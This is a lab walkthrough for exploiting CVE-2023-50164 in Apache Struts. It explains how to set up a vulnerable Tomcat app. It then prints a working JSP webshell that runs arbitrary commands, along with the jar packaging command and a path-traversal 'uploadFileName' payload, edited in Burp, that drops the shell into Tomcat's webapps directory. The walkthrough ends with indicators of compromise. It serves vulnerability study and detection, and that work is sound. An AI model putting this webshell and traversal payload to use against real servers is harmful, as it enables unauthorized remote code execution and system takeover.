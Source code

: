 # Apache Struts RCE (CVE-2023-50164)
## Summary

This vulnerability allows for an attacker to manipulate file upload parameters to enable path traversal affecting the destination of the uploaded file. Under some circumstances this can lead to uploading a malicious file which can be used to perform remote code execution. This affects Struts versions 2.0.0-2.3.3 (EOL), 2.5.0-2.5.32, and 6.0.0-6.3.0.1. This vulnerability is fixed by Struts versions 2.5.33 or greater and 6.3.0.2 or greater

## Prerequisites

This requires a web server hosting a vulnerable web application using Struts ActionSupport and offering file upload functionality. Furthermore, to gain remote code execution, the application server implementing the server side upload logic needs to upload the file to the local filesystem of the webserver and have write permissions to a sensitive directory that would be useful to an attacker such as the webroot to upload a JSP webshell. 

[Additional Details on Mitigating Factors/Prerequisites](https://securityboulevard.com/2023/12/understanding-the-impact-of-the-new-apache-struts-file-upload-vulnerability/)
## Setup

[Exploit Analysis and Lab Setup for Linux and Tomcat 9](https://www.vicarius.io/vsociety/posts/apache-struts-rce-cve-2023-50164)

For this example setup, I used a Windows Host with Tomcat, however this exploit can also be conducted on Linux or with another Servlet of your choice. This will mostly affect the target directories for path traversal and the method of gaining RCE.

#### JDK 17 - Windows Install
> *Apache Tomcat Requires Java(JDK). Version 17 was used during emulation and confirmed to work*

First, if you do not have it already, you need to install JDK 17: [JDK 17 Install](https://www.oracle.com/java/technologies/downloads/#jdk17-windows)
You can check this with `java --version`

#### Maven - Windows Install
>*Usage is for compiling webapps into .war for deployment. Can run on Windows or Linux and transfer compiled .war file to desired destination*

Next, you'll also need to install maven. Below are guides that detail the installation and configuration process
[Maven Windows Install and Setup](https://phoenixnap.com/kb/install-maven-windows)
[Maven Linux Install and Setup](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu)

#### Tomcat - Windows Install and Deploy
>*WARNING: Tomcat Versions higher than 9 will produce an error due to Servlet API version conflict between Struts and Tomcat*

Next, you'll need to install tomcat and configure the service to host the web applications. The easiest way to do this for windows is to use the Windows Service Installer. [Tomcat Install](https://tomcat.apache.org/download-90.cgi)
- Make sure you have JDK installed beforehand, as you will need it to finish installation
- When going through the installer wizard, make sure to set an administrator user and password so as to access the manager app. If you miss this step, you can add/manage users in the `tomcat-users.xml`

By default, the installer should create a new service named something similar to `Apache Tomcat 9.0 Tomcat9`. Make sure this is running, and for ease of use, you can configure it to run automatically on startup.
When this is running, your website should be accessible! Go to 127.0.0.1:8080 in the web browser to check.
>*NOTE: By default, tomcat hosts on port 8080. To change this, you can edit the `server.xml` file in the `conf` folder*

![Successful Tomcat Deployment](Pasted%20image%2020240119131515.png)
> *NOTE: If trying to access from an external machine, such as a kali box, make sure that your networking/DNS is properly configured and that the boxes can communicate, as well as check that no firewalls/filtering are blocking the port/traffic. If hosting on a Windows host, you'll likely need to either disable or modify Windows Defender Firewall rules to allow traffic through to the port you are hosting Tomcat on*
#### Compile and Deploy Vulnerable File Upload Application
For this environment, we'll deploy a basic file upload application that uses a vulnerable version of Apache Struts:
[Github POC Exploit and Vulnerable Struts App](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE)
Download the struts-app folder and contents from the above link. Within the `struts-app` folder, run `mvn clean package`

This should produce an `upload-1.0.0.war` within a newly created `target` subdirectory. To deploy this application, go to the tomcat manager app in the webserver. Find the "Deploy" section, upload the file, and click `Deploy`

>*NOTE: Manager app is only accessible from the localhost by default*

![Tomcat Manager](./images/Pasted%20image%2020240118160002.png)
Make sure that the upload-1.0.0 application is started, and then it should be accessible from `127.0.0.1/upload-1.0.0/upload.action` on the website

![[Pasted image 20240119113847.png]]

Congrats! Your environment is now ready for exploitation
## Execution

### Method 1 - Manual Exploitation

#### Prepare a Webshell to Upload
To gain RCE on Tomcat, we will need to upload a .war webshell to the webapps directory. Similar to how we deployed the upload-1.0.0.war, this will allow us to deploy our own malicious application. You can create your own malicious application, or use the basic jsp webshell below

[Basic jsp webshell:](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE/blob/main/exploit/webshell.jsp) 
```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    if (cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd, null, null);
            BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
            while ((s = sI.readLine()) != null) {
                output += s + "\n";
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
%>
<%=output %>
```
Save to `webshell.jsp`, and convert into a .war file:
`jar -cvf webshell.war webshell.jsp`
This should create `webshell.war`, which we'll use to deploy our malicious application
#### Use Burp to modify upload parameters
Using a Burp Proxy, go to the file upload application you deployed earlier. Click on `Choose File` and select `webshell.war`. Turn on intercept in Burp, and click `Submit`. Burp should intercept the packet containing your uploaded file data. Send the HTTP POST packet to Repeater, where we will modify 2 of the parameters:
- Set `name="upload` to `name="Upload`
- Add a new upload parameter:
````
Content-Disposition: form-data; name="uploadFileName"; 

..\..\..\..\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\webshell.war
````
>*NOTE: Make sure to modify the form boundaries as well, appending a copy of the one ending with "--" to the end of the packet, and removing the "--" from the original. The image below contains an example of what this looks like when completed*

![Modified HTTP Packet](Pasted%20image%2020240119130729.png)
Send this modified packet, and your webshell should be deployed to Tomcat's webapp directory!
To check if our exploit worked and interact with out webshell, we can use the `cmd` variable at `{0.0.0.0:8080}/webshell/webshell.jsp?cmd=whoami`

![whoami Command run by webshell](Pasted%20image%2020240118171435.png)
>*NOTE:
>Default deployment will create directory with the .war's name containing the jsp file we compiled. 
>Ex: `jar -cvf warname.war jspname.jsp` will be accessible at `/warname/jspname.jsp`*
#### Indicators of Compromise

- Http traffic containing the "Upload" and "uploadFileName" parameters
- Http traffic containing `../` characters
- New or unusual files created/uploaded by the web service to unintended/unexpected locations (Outside of designed upload destination)
	- In particular, the creation of .war files in Tomcat's webapps directory (or a similar event in another servlet) and/or associated deployment of unauthorized web applications
